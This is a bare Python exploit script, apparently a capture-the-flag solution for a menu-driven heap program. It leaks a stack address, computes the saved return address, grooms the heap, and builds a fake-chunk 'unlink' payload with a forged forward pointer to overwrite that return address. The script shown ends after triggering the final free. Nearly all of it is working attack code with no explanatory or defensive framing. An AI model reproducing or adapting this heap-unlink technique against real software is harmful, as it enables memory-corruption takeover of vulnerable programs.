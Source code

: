 ```python

def sr(rec=PROMPT, msg='', p=PRINT):
    data = recvuntil(rec, p)
    sendline(msg, p)
    if p:
        print(msg)
    return data

def allocate(size):
    sr(msg='A')
    sr(': ', size)

def free(num):
    sr(msg='F')
    sr(': ', num)

def write(num, data):
    sr(msg='W')
    leak = sr(': ', num)
    addr = 0
    for line in leak.split('\n'):
        if line[0] == num:
            addr = int(line.split()[1], 16)
    sr(': ', data)
    if addr:
        return addr

def leak():
    sr(msg='N')
    recvuntil(': ')
    addr = recvuntil('\n')
    return int(addr, 16)

def leave():
    sr(msg='E')


stack_ptr = leak()
log.info('leaked stack ptr: {}'.format(hex(stack_ptr)))
saved_rip = stack_ptr + 316
log.info('saved rip at:     {}'.format(hex(saved_rip)))
allocate('16')  # buffer 1
allocate('128') # buffer 2
allocate('16')  # buffer 3
free('2')
free('1')
allocate('128') # buffer 4
fwptr_addr = write('4', 'AAAAAAAA')
log.info('forward ptr addr: {}'.format(hex(fwptr_addr)))
mal_size = saved_rip - fwptr_addr
log.info('its content:      {}'.format(hex(mal_size)))
log.info('sanity check:     {}'.format(hex(fwptr_addr + mal_size)))

unlink_payload  = p64(mal_size)   # fill buffer 1
unlink_payload += p64(0)          # (no bk ptr)
unlink_payload += p64(16 + 1 + 2) # fake buffer size
unlink_payload += 'BBBBBBBB' * 2  # fill fake buffer
unlink_payload += p64(16 + 2)     # fake freed buffer size
unlink_payload += p64(fwptr_addr) # fwd pointer
unlink_payload += p64(0)          # no bk ptr
write('4', unlink_payload)
free('2')

```